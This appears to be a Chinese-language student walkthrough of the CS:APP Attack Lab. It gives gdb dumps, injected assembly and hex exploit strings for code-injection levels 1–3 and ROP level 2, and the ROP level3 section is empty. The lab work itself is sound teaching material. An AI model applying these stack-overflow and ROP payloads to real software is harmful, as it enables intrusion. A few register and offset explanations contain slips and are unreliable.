 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下(一行8位 每行放一次指令)
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数   
此时需要利用栈指针转跳 要利用栈指针 先找到栈指针位置  
```
Starting program: ctarget -q   
Cookie: 0x59b997fa   
Dump of assembler code for function getbuf:   
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp   
   0x00000000004017ac <+4>:	mov    %rsp,%rdi   
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>   
   0x00000000004017b4 <+12>:	mov    $0x1,%eax   
   0x00000000004017b9 <+17>:	add    $0x28,%rsp   
   0x00000000004017bd <+21>:	retq      
End of assembler dump.   
(gdb) p/x $rsp   
$1 = 0x5561dca0   
(gdb) p/x 0x5561dca0-0x28   
$2 = 0x5561dc78   
```
获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55   
运行得到的 Cookie: 0x59b997fa    
需要将cookie值(0x59b997fa)存入%rdi寄存器用于传参数给函数touch2    
再查看ctarget的汇编代码 得知touch2 的起始地址为 4017ec 即可开始写注入所需的函数   
File\:phase.s   
```assembly
pushq $0x4017ec
movq  $0x59b997fa,%rdi
retq

```
使用gcc -c选项编译该文件   
再利用objdump 反编译成机器码得到   
```
68 ec 17 40 00       	pushq  $0x4017ec   
48 c7 c7 fa 97 b9 59 	movq    $0x59b997fa,%rdi   
c3                   	retq      
```
则答案为  
```
68 ec 17 40 00 
48 c7 c7 fa 97 b9 59
c3  
00 00 00   
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00     
78 dc 61 55      
```


### ***CI level3***
和level2的思路一致 先获取touch3地址 0x4018fa  
level3需要将cookie转换成ascii字符串形式   
0x59b997fa 转化为字符串为 35 39 62 39 39 37 66 61   
同时 提示给出 touch3中会导致输入被覆盖    
因此 传递的参数不能直接储存至输入 于是在栈指针下方储存   
rsp + 0x8 = 0x5561dca8    
phase3.s:
```assembly
pushq $0x4018fa
movq  $0x5561dca8,%rdi
retq

```
反汇编得到   
```
fa 18 40 00       	   pushq  $0x4018fa
48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c3                   	retq   
```
答案   
```
68 fa 18 40 00
48 c7 c7 a8 dc 61 55 
c3 
00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 
35 39 62 39 39 37 66 61
```

### ***ROP level2***
和CI level2的要求一致 但是这题换了攻击方式 不能直接在输入区插入代码来达成目标 需要利用ret来转跳至已存在的代码来完成   
lab给出了farm.c文件 其中的函数即是用于攻击的方式  write up中也有操作对应的编码表   
提示给出利用函数start_farm 到函数mid_farm 即可完成 同时写到可以利用popq   
汇编代码地址0x401994 ~ 0x4019d0 为可用函数   

要求与CI leve2一致 即需要存储cookie至%rdi 并转跳至touch2   
先理清思路 由于栈随机化 导致地址不能确定 需要利用popq将数据从栈弹出到寄存器中   
即储存cookie至%rsp 再将其储存到寄存器 %rdi 再转跳函数touch2即可   
汇编代码地址0x4019ca开始的操作 有所需操作编码 `58 90 c3`     
`58` 为操作 `popq %rax` `90`为操作`nop`   
地址为0x4019cc   
汇编代码地址0x4019c3开始的操作 有所需操作编码 `48 89 c7 90` 并紧跟 `c3`   
`48 89 c7` 为操作`movq %rax, %rdx`         `c3` 为操作`ret` 
地址为0x4019c5
总结得到
```assembly
popq %rax
retq 
movq %rax,%rdi            
nop
retq
```
编写答案   
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### ***ROP level3***
